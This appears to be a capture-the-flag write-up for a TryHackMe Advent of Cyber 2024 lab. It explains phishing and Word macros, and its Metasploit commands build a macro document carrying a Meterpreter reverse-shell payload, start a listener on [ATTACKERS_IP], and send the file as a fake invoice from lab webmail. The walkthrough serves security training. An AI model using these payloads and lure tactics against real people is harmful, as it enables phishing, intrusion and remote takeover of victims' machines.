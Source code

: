 # **Tutorial: Room - Advent of Cyber 2024 - Day 10**

## 📖 Description
In this room, the objective was to exploit a vulnerability in a Microsoft Word document containing a malicious macro. We used Metasploit to set up a reverse shell, which allowed us to remotely access the victim's machine and capture the flag.

---

### **Learning Objectives**
- Understand how phishing attacks work.
- Discover how macros in documents can be used and abused.
- Learn how to carry out a phishing attack with a macro.

---

### **Phishing Attacks**
Security is only as strong as the weakest link in the chain. Many would argue that humans are often the weakest link in security. Is it easier to exploit a patched system behind a firewall, or to convince a user to open an "important" document? This is why "human hacking," or social engineering, is often the easiest route to compromise a system.

Phishing, a form of social engineering, works by sending "bait" to a large group of target users. The attacker often crafts the message with a sense of urgency, prompting the target to take immediate action, which increases the chances of success. The goal is to steal personal information or install malware by convincing the user to open a file, fill out a form, or click a link.

An example might be an email claiming that a large charge is pending, urging the recipient to check the attached document or URL. The attacker just needs the target to open the file or click the link, triggering actions that allow them to control the victim's system.

---

### **Macros**
Macros are used to automate repetitive tasks, such as inserting text or performing calculations. Microsoft Office products like Word support macros, which can be a huge time-saver for users. However, these macros can also be hijacked and used for malicious purposes in cyber attacks.

In the case of phishing, an attacker can create a document with a macro that, once opened, executes a payload on the victim's system, giving the attacker remote control.

---

### **Attack Plan**
The attacker, Mayor Malware, needs to create a document with a malicious macro. Upon opening the document, the macro will execute a payload and connect to the attacker’s machine, giving them remote control. The steps are as follows:

1. Create a document with a malicious macro.
2. Start listening for incoming connections on the attacker’s system.
3. Send the malicious document and wait for the victim to open it.
4. The victim opens the document and connects to the attacker’s system.
5. The attacker gains control of the victim’s system.

---

## 🛠️ Prerequisites
- Active account on [TryHackMe](https://tryhackme.com)
- Basic knowledge of Metasploit and social engineering attacks.
- Tools required:
  - [Metasploit](https://docs.metasploit.com/)
  - Access to the mail server(Rainloop) to send the email

---

## 🚀 Step-by-Step Guide

### 1️⃣ Initial Setup in Metasploit
First, we need to configure the Metasploit payload. We’ll use a `windows/meterpreter/reverse_tcp` payload to receive a reverse connection from the victim's machine. The `[ATTACKERS_IP]` is the IP from our AttackBox.

```bash
msfconsole
set payload windows/meterpreter/reverse_tcp
use exploit/multi/fileformat/office_word_macro
set LHOST [ATTACKERS_IP]
set LPORT 8888
show options
exploit
```

---

### 2️⃣ Exploiting the Malicious Document
After setting up the exploit, we need to generate the malicious Word file with a macro and send it to the victim. Once the victim opens the file, the reverse shell will be triggered, establishing the connection.

---

### 3️⃣ Handling the Connection in Metasploit
After that, we configure Metasploit to listen for incoming connections.

```bash
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST [ATTACKERS_IP]
set LPORT 8888
show options
exploit
```

---

### 4️⃣ Sending the Malicious Document via Email
To send the malicious document, we will use RainLoop, a webmail client available on the attacker's machine. You can access it by visiting the provided link on the AttackBox.

- **Link for accessing RainLoop**: [Link provide from TryHackMe]
- **Login credentials**:
  - **Email**: `info@socnas.thm`
  - **Password**: `MerryPhishMas!`

Once logged in, compose an email to the victim (`marta@socmas.thm`). Attach the malicious Word file (renaming it to something convincing like `invoice.docm` or `receipt.docm`), and craft a message to encourage the victim to open it. For example, mention that it contains an important invoice or document that requires their attention.

---

### 5️⃣ Gaining Access to the Victim's Machine
Once the victim opens the document and runs the macro, we gain access to their system via the reverse shell. Now we can execute commands on their machine.

---

### 6️⃣ Capturing the Flag
With access to the victim’s machine, we navigate to the desktop and read the flag file.

```bash
cd c:/users/Administrator/Desktop
ls
cat flag.txt
```

---

### 7️⃣ Conclusion
By running the cat flag.txt command, we successfully obtain the flag, completing the room.

---

### 🖼️ Resources
(Include screenshots or useful links here.)

---

### 📌 Final Notes
This exercise demonstrated how to perform a phishing attack using a malicious macro to gain remote access to a system and exfiltrate information.

---

### 🏆 Final Outcome
After completing all the steps and capturing the flag, the room is finished.
